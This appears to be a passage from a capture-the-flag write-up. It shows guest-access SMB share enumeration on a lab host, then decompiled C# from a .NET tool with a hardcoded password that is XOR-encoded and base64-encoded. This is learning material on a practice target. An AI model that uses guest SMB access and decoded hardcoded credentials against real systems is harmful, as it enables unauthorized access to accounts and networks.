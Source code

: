 The only one where we can actually see files is the support-tools one 
```bash
smbclient  -U Guest --password="" //10.10.11.174/support-tools
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022

                4026367 blocks of size 4096. 968811 blocks available
smb: \>
```
Downloading all the files locally, the UserInfo is a dotnet binary, so after moving it to a windows machine to decompile it with dnspy, we fin that it has hardcoded credentials. 


## Hardcoded Credentials 
```csharp
using System;
using System.Text;

namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
